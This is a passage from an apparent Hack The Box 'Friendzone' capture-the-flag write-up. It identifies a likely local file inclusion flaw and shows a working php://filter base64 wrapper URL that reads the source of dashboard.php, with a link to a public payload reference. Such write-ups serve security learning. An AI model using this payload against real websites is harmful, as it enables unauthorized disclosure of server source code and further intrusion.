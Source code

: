 This displays a image and a timestamp numbers, might be vulnerable to LFI.

![09-web](/assets/img/HTB/Friendzone/09-web.png)

# Initial Foothold

See the content of `dashboard.php` using the next [LFI Wrapper](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers) and decrypt it using `base64`.
```plaintext
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=dashboard
```
![10-php](/assets/img/HTB/Friendzone/10-php.png)
